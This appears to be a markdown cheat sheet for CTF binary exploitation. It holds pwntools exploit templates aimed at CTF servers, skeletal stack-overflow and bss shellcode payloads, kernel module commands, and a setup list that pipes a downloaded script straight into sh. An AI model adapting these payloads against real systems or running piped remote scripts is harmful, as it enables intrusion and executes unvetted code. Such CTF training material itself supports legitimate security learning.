 # Native Application Exploitation aka Binary Exploitation aka Pwning
Command Line cheat sheet for binary exploitation

* [Templates](#templates)
* MacOS
* Linux
	* Stack overflow
	* Format string
	* Heap
	* FILE
	* Integer overflow
	* Race conditions
	* Kernel
	* ARM
* Windows
	* Stack
	* Kernel
* [Browser](browser.md)
* [Misc](#misc)

<h2 id="templates">Exploit template</h2>

<h4>Python</h4>
	
	#!/usr/bin/env python
	# -*- coding: utf-8 -*- 
	
	from pwn import *

	BINARY = './library_in_c'
	LIBC = './libc.so.6'
	HOST = 'shell.actf.co'
	PORT = 20201
	
	elf = ELF(BINARY)
	#libc = ELF('./libc.so.6')

	context.terminal = ['tmux', 'split-w']
	
	#printf = elf.got['printf']		

	def get_base_address(proc):
		return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

	def debug(breakpoints):
		script = ""
		for bp in breakpoints:
			script += "b *0x%x\n"%(PIE+bp)
		gdb.attach(process(BINARY), gdbscript=script)

	def start():
	    if not args.REMOTE:
		print("LOCAL PROCESS")
		return process(BINARY, env={"LD_PRELOAD":LIBC})
	    else:
		print("REMOTE PROCESS")
		return remote(HOST, PORT)


	p = start()
	if args.GDB:
	    gdb.attach(p, 'b main')

	p.interactive()


<h4>Ruby</h4>
	
	gem install pwntools
	
	require 'pwn'
	
	context.arch = 'i386'
	context.log_level = :debug
	z = Sock.new 'chall.pwnable.tw', 10000

	z.recvuntil "Let's start the CTF:"
	z.send p64(0x1337).rjust(0x18, 'A')
	
	z.interact

<h2 id="linux">Linux</h2>

<h3 id="stack">Stack Exploitation</h3>
	
<h4>Stack overflow</h4>

	buffer = 'A' * 1337
	rip = p64(0x1337) # Address of shellcode
	payload = "SHELLCODE"

	exploit = buffer + rip
	

<h4>Shellcode in bss section</h4>

	buffer = 'A' * 1337
	gets = elf.plt['gets']
	bss = elf.bss(0x20) # BSS at 0x20 bytes offset
	pop_rdi = p64(0x1337)

	payload = buffer + pop_rdi + bss + gets + bss

<h4>Ret2libc</h4>

<h4>ROP syscall</h4>
		
<h4>ROP</h4>

<h3>Format String</h3>

<h3>Heap</h3>

<h4>Off by one</h4>

<h4>Chunk extension/Overlapping</h4>

<h4>Unlink</h4>

<h4>Use After Free</h4>

<h4>Fastbin attack</h4>

<h4>Unsorted bin attack</h4>

<h4>Large bin attack</h4>

<h4>Tcache attacks</h4>

<h4>House of Einherjar</h4>

<h4>House of Force</h4>

<h4>House of Lore</h4>

<h4>House of Orange</h4>

<h4>House of Rabbit</h4>

<h4>House of Roman</h4>

<h3>FILE</h3>

<h3>Integers</h3>

<h3>Race Conditions</h3>

<h3>Kernel</h3>
	
	# List kernel modules
	lsmod
	
	# Insert LKM
	insmod <filename> param1=1 array_param=1,2
	modprobe <module>
	
	# Remove LKM
	rmmod <module> 
	rmmod -f <module> #Force remove
	modprobe -r <module>
	
	# Debugging symbols
	nm <module>

	# View printk output
	dmesg
	
	# View inode
	ls -i <file>
	stat <file>


<h2 id="misc">Misc</h2>

	# Debug Macho binaries (by mgrube)
	codesign --remove-signature app.app
	xattr -r -d app.app

	# Quick pwn setup

	apt update
	sudo apt install wget
	apt install --assume-yes gdb
	wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
	apt install --assume-yes python
	apt install --assume-yes vim
	apt install --assume-yes python3-pip
	apt install --assume-yes python-pip
	apt install --assume-yes wget
	apt install --assume-yes net-tools
	apt install --assume-yes ruby
	apt install --assume-yes tmux
	pip install capstone
	pip install pwntools
	pip install ropgadget
	gem install one_gadget

	# gdb LD_PRELOAD 

	set exec-wrapper env 'LD_PRELOAD=./libc.so.6'
	set env LD_PRELOAD ./libc.so.6

	# Linux Dockers

	debian:latest
	pwndocker:latest
	glibc2.23-pwn:latest
	
	# When using old ubuntu versions

	gedit /etc/apt/sources.list
	deb http://old-releases.ubuntu.com/ubuntu karmic main restricted
	
<h3>Qemu</h3>
	
	# GDB debugging
	
